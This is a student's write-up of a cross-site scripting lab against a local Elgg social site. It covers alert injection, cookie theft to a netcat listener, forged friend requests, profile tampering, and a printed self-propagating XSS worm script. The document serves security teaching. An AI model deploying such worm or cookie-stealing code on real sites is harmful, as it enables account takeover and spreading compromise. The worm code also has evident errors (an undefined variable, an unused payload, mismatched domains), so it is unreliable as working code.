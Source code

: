 # Cross Site Scripting(XSS) Attack Lab
# Kade, Pitsch(t12r458)
# kadecarter82@gmail.com
# CSCI 476

# 03/20/2021

## Task 1: Posting a Malicious Message to Alert Window
For some reason i could not get the script to run in the About section
of the profile so i opted to put it into the description section of the profile and that worked.

### | Here we can see the script planted in the description of the profile.

![Task 1.1](Images/task1.1.png)

### | Here we can see the alert window that pops up when we get to Alice's profile

![Task 1.2](Images/task1.png)

## Task 2: Posting a Malicious Message to Display Cookies
After getting to this point i realized that the reason that the profile 'About Me' was not working is because i was using the visual editor and not just the plain text editor.

![Task 2](Images/task2.2.png)

### | Here we can the alert window displays the users cookie
![Task 2.2](Images/task2.png)


## Task 3: Stealing cookies from victim
### | We post the script into the attackers profile about section

![Task 3](Images/task3.1.png)

### | We can see that we have successfully returned our victims cookie
To get the victims cookie we had to listen on a port in our terminal using netcat.

![Task 3](Images/task3.png)

## Task 4.1: Make Samy and Victim Friends
This task was pretty straight forward with the provided code and burpsuite

### | Using Burpsuite and intercepting the request we can easily see that samy guid=59

![Task 4](Images/task4.1.png)
After we see that Samy's guid is 59 things are pretty straight forward
Then we can set-up the url to be this ->
```var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=59" + ts + token + ts + token;``` in the code that was provided.

The only thing that threw me off is that the url needed two ```ts + token``` options for the URL to be accepted. I'm not sure if thats true but that is the only way i got it to work
#### | Just showing that Boby has no friends before visiting Samy's profile.

![Task 4](Images/task4.4.png)

#### | After Boby visits Samy looks like he has a new friend that was not requested...spooky

![Task 4.4](Images/task4.5.png)

### Task 4.2: Only provided Editor mode?
I do not believe that this would work because it encodes all the characters so the < and > would not be read as angle brackets anymore. And earlier i already discovered that this
will not work because i was trying to make the first task work w/o using the basic editor and it obviously did not work.


## Task 5.1: Modify the victims profile when they visit Samy's page
This portion just builds off the previous script

```var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=59" + ts + token + ts + token;```

```var content ="&description = Samy was Here" + "&accesslevel[description]=2";```

```var samyguid = 59;```


#### | Here we can see that Alice's profile is empty

![Task 5](Images/task5.1.png)

#### | Here we can see that our script successfully worked 

![Task 5](Images/task5.3.png)

### Task 5.2: Why do we need line (1)?
Line one just makes sure that Samy's code does not edit his own profile. Which in turn would ruin our attack because our own about page would get overwritten with the data we wanted to plant in other profiles.
After we removed that line we can see that this script affected our own profile. 

#### | Here we can see that removing that line it affected Samy's profile.

![Task 5](Images/task5.4.png)

## Task 6: Writing a Self-Propagating XSS Worm
After filling in the missing portion for the provided code we were able to get a successful attack
#### | Here we can see the code in Samy's profile

![Task 6](Images/task6.2.png)

#### | And here we can see the attack after logging into Alice's profile
![Task 6](Images/task6.3.png)


I was not sure how to show that the attack was successful so i just made a alert window
pop up that signified that that user was logged in and their profile was compromised with
the worm


``` javascript
<script type="text/javascript" id="worm" >
    window.onload = function () {
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script > ";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    var uName = elgg.session.user.name;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var guid = "&guid=" + elgg.session.user.guid;
    var about = "&description = Samy was here" + wormCode + " &accesslevel[description]=2";
    var editURL = "http://www.labelgg.com/profile/" + uName + "/edit";
    var addContent = token + ts + inName + guid;

    if (elgg.session.user.guid != 59) {
        alert("Attack on: " + uName)
        Ajax = new XMLHttpRequest();
        Ajax.open("POST", editURL, true);
        Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(addContent);
    }
}
</script >

```
This code was made using the 2 previous methods, code provided and then getting information that was intercepted through burpsuite. Like ```content``` for example was made from studying the intercepted information from burpsuite and how that data was arranged.